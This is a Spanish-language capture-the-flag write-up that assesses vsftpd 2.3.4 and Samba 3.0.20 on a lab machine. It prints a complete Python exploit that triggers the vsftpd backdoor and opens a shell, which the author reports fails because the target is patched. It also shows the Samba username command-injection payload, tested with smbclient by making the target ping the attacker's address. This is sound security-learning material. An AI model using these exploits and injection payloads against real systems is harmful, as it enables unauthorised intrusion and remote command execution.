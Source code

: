 ## Vulnerability Assessment {-}

### vsftpd 2.3.4 {-}

Miramos si existe un exploit para este servicio.

```bash
searchsploit vsftpd 2.3.4
```

Vemos que hay una vulnerabilidad y que existe un exploit. Como el exploit es une exploit Metasploit, vamos buscando por
la web si existe otro exploit y la encontramos en [cherrera0001 github](https://github.com/cherrera0001/vsftpd_2.3.4_Exploit).

```python
#!/usr/bin/python3
from pwn import log,remote
from sys import argv,exit
from time import sleep

if len(argv) < 2:
    exit(f'Usage: {argv[0]} Target_IP')


p = log.progress("Running")
vsftpd = remote(argv[1], 21)

p.status('Checking Version')
recv = vsftpd.recvuntil(")",timeout=5)
version = (recv.decode()).split(" ")[2].replace(")","")
if version != '2.3.4':
	exit('2.3.4 Version Not Found')

vsftpd.sendline('USER hii:)')
vsftpd.sendline('PASS hello')
p.status('Backdoor Activated')

sleep(3)

backdoor = remote(argv[1], 6200)
p.success("Got Shell!!!")
backdoor.interactive()
```

Si lanzamos el script no funcciona, parece ser que la version a sido parcheada -> rabbithole. 

### SAMBA 3.0.20 {-}

```bash
searchsploit samba 3.0.20
```

Vemos que hay un exploit para Metasploit que permite ejecutar commandos. Examinamos el script con el commando `searchsploit -x 16320` y vemos
que podemos injectar commandos desde el nombre de usuario con el formato siguiente

```ruby
username = "/=`nohup " + payload.encoded + "`"
```

Vamos a por pruebas

1. Nos ponemos en escucha de trazas ICMP

    ```bash
    tcpdump -i tun0 icmp -n
    ```

1. Intentamos enviar commandos siguiendo la guia del script

    ```bash
    smbclient -L 10.10.10.3 -N --option="client min protocol=NT1"
    smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1" -c "dir"
    smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1"
    smb: \> logon "/='nohup ping -c 1 10.10.14.7'"
    ```

Vemos que esto functionna perfectamente. Vamos a ganar accesso al systema.
